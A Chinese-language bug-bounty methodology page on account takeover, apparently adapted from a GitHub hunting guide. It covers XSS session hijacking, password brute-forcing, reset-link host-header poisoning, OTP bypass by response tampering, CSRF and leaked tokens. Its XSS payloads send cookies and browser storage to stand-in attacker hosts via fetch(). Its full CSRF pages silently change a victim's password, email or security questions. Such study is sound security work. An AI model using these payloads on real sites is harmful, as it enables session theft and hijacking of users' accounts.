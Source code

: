 # 参考

[原文](https://github.com/KathanP19/HowToHunt/blob/master/Account_Takeovers_Methodologies/Account_Takeovers_Methods.md)

[Meduim文章](https://avanishpathak.medium.com/an-account-takeover-vulnerability-due-to-response-manipulation-e23fe629bd1)

# 利用XSS进行会话劫持

```
1.失效的身份验证和会话管理中添加了一种会话劫持方法。
2.如果你在目标上发现了这种情况。
3.尝试窃取目标的cookies。
4.建议先寻找XSS漏洞。
5.如果你发现XSS漏洞，你就可以窃取受害者的cookies，并使用会话劫持来接管受害者的账户。
```

```
XSS漏洞窃取cookie,web端一般会设置Httponly来进行防御，还可以窃取如下信息:
localStorage: 数据会永久保存在浏览器中，除非被主动清除。
sessionStorage: 数据仅在当前会话期间有效，关闭浏览器标签页后即被清除
```

```paylaod
<script>
  // 窃取 localStorage
  const localData = JSON.stringify(localStorage);
  fetch('https://attacker-server.com/steal?type=local&data=' + btoa(localData));

  // 窃取 sessionStorage
  const sessionData = JSON.stringify(sessionStorage);
  fetch('https://attacker-server.com/steal?type=session&data=' + btoa(sessionData));
</script>

<script>
  // 创建一个请求，将 cookie 作为参数发送到攻击者的服务器
  fetch('https://attacker-evil-server.com/steal?data=' + document.cookie);
</script>
```



# 密码爆破

前端没有设置密码错误次数，可以使用弱密码进行爆破

```
因此，如果您发现目标的密码策略较弱，请尝试在 POC 演示中创建非常弱的账户密码，进行无速率限制攻击。
（可能会被接受，也可能不会）
```



# 重置密码投毒偷取token



```
1. 进入密码重置功能。
2. 输入邮箱地址并拦截请求。 输入受害者的邮箱
3. 将主机头修改为其他主机，例如：
	Host:target.com
	Host:attacker.com
也可以尝试添加一些不修改主机的头，例如：
	X-Forwarded-Host: evil.com
	Referrer: https://evil.com
4. 如果在下一个请求中发现 attacker.com 表示你成功窃取了令牌，则转发此请求。:)
```

---

补充:

```
如果服务器存在漏洞，会生成例如：https://attacker.com/reset?token=SECRET_TOKEN
该密码重置链接就会发送到受害者的邮箱里，一旦受害者点击该链接，攻击者就能成功获得受害者的token值
```



# 使用身份验证绕过

```
查看身份验证绕过方法，有一种通过响应操作绕过 OTP 的方法，这可能导致帐户劫持。
1. 输入错误的授权码/密码
2. 在 Burpsuite 中捕获授权请求并将其发送到repeater
3. 检查响应
4. 通过操作以下参数更改响应
{“code”:”invalid_credentials”} -> {“code”:”valid_credentials”}
{“verify”:”false”} -> {“verify”:”true”}
补充:
{"code":500} -> {"code":200}
{"success":false}->{"success":true}
```



# 尝试使用CSRF

```
1. 修改密码功能。
2. 修改邮箱
3. 修改安全问题
```

## 修改密码

**不要求用户输入旧密码**，只需要输入新密码和确认新密码即可

在evil.com上构造如下html页面，

```html
<html>
  <body onload="document.forms[0].submit()">
    <h3>您正在查看可爱的猫咪图片...</h3>
    <form action="https://target.com/change-password" method="POST" style="display:none;">
      <input type="password" name="new_password" value="AttackerNewPass123" />
      <input type="password" name="confirm_password" value="AttackerNewPass123" />
    </form>
    <img src="cute_cat.jpg">
  </body>
</html>
```

受害者在登录target网站的前提下点击 evil.com后，密码被修改成AttackerNewPass123



````
//Get请求版本
https://target.com/change-password?new_password=AttackerNewPass123&confirm_password=AttackerNewPass123
````



## 修改邮箱

同上

```html
<body onload="document.forms[0].submit()">
  <form action="https://target.com/change-email" method="POST" style="display:none;">
    <input type="email" name="email" value="attacker-email@evil.com" />
  </form>
  </body>
```

受害者在在登录target网站的前提下点击 evil.com后，注册邮箱被修改为attacker-email@evil.com

```
//GET请求
https://target.com/change-email?email=attacker-email@evil.com
```



## 修改安全问题

同上，将受害者的账户安全问题和答案修改为自己预设的内容

```html
<body onload="document.forms[0].submit()">
  <form action="https://target.com/change-security-questions" method="POST" style="display:none;">
    <input type="text" name="question1" value="What is my favorite color?" />
    <input type="text" name="answer1" value="AttackerColor" />
    <input type="text" name="question2" value="What is my pet's name?" />
    <input type="text" name="answer2" value="AttackerPet" />
  </form>
  </body>
```

攻击者利用忘记密码功能，直接重置密码登入

```
//GET请求
https://target.com/change-security-questions?question1=Favorite+color&answer1=AttackerColor&question2=Pet+name&answer2=AttackerPet
```

# 响应中泄露的token

虽然方法很多，但都一样。

所以我会在这里分享我学到的方法。

功能端点: (注册，忘记密码/重置密码）

步骤（注册）：

```
1. 拦截包含您已输入数据的注册请求。
2. 点击“操作”->“执行”->“拦截此请求的响应”。
3. 点击“转发”。
4. 检查响应中是否包含任何链接、令牌或一次性密码 (OTP)。
```

步骤 (重置密码):

``` 
1. 拦截“忘记密码”选项。
2. 点击“操作”->“执行”->“拦截此请求的响应”。
3. 点击“转发”。
4. 检查响应是否包含任何链接、任何令牌或 OTP。
```


